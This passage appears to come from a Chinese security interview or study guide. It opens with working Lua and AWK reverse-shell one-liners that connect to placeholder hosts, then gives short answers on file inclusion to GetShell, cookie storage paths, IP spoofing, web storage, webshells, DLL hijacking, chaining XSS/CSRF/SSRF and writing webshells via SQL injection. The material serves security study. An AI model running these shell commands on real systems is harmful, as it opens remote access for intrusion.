 ###### Lua

```lua
lua -e "require('socket');require('os');t=socket.tcp();t:connect('x.x.x.x','5555');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

###### AWK 反弹

攻击的机器监听，在收到shell的时候不可以输入enter，不然会断开

```shell
awk 'BEGIN{s="/inet/tcp/0/x.x.x.x/8080";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'
```

##### 文件包含漏洞可以用来做啥，以及需要主要注意的事项？

1. 配合文件上传漏洞 GetShell，可以执行任意脚本代码，读取网站源码文件以及配置文件泄露，远程包含 GetShell
2. allow_url_fopen 和 allow_url_include 为 ON 的话，则包含的文件可以是第三方服务器中的文件，这样就形成了远程文件包含漏洞
3. /etc/passwd • 需要 magic_quotes_gpc=off,PHP 小于 5.3.4 有效

##### cookie 存在哪里？可以打开吗?

C:\Users\用户名\AppData\Roaming\Microsoft\Windows\Cookies

##### 注射式攻击简介？

1）IP 欺骗 2）预测 TCP 序列号。 如果是 UDP 协议，只需伪造 IP 地址，然后发送过去就可以了，因为 UDP 没有所谓的 TCP 三次握手，但基于 UDP 的应用协议有流控机制，所以也要做一些额外的工作。对于 IP 欺骗，有两种情需要用到： 1）隐藏自己的 IP 地址； 2）利用两台机器之间的信任关系实施入侵。

##### localStorage 和 sessionStorage 区别？

localStorage 和 sessionStorage 一样都是用来存储客户端临时信息的对象。他们均只能存储字符串类型的对象（虽然规范中可以存储其他原生类型的对象，但是目前为止没有浏览器对其进行实现）。localStorage 生命周期是永久，这意味着除非用户显示在浏览器提供的 UI 上清除 localStorage 信息，否则这些信息将永远存在。 sessionStorage 生命周期为当前窗口或标签页，一旦窗口或标签页被永久关闭了，那么所有通过 sessionStorage 存储的数据也就被清空了。不同浏览器无法共享 localStorage 或 sessionStorage 中的信息。相同浏览器的不同页面间可以共享相同的 localStorage（页面属于相同域名和端口），但是不同页面或标签页间无法共享 sessionStorage 的信息。这里需要注意的是，页面及标 签页仅指顶级窗口，如果一个标签页包含多个 iframe 标签且他们属于同源页面，那么他们之间是可以共享 sessionStorage 的。

##### 什么是 WebShell?

WebShell 就是以 asp、php、jsp 或者 cgi 等网页文件形式存在的─种命令执行环境

##### 如何防止 DLL 劫持

DLL 劫持利用系统未知 DLL 的搜索路径方式，使得程序加载当前目录下的系统

同名 DLL。所以可以告诉系统 DLL 的位置，改变加载系统 DLL 的顺序不是当前

目录，而是直接到系统目录下查找。

##### 如果给你一个 XSS 盲打漏洞，但是返回来的信息显示，他的后台是在内网，并且只能使用内网访问，那么你怎么利用这个 XSS？

必须是 self xss + csrf +ssrf 到 getshell

##### SQL注入写入webshell

所有常用的关系数据库管理系统中均包含内置的向服务器文件系统写文件的功能
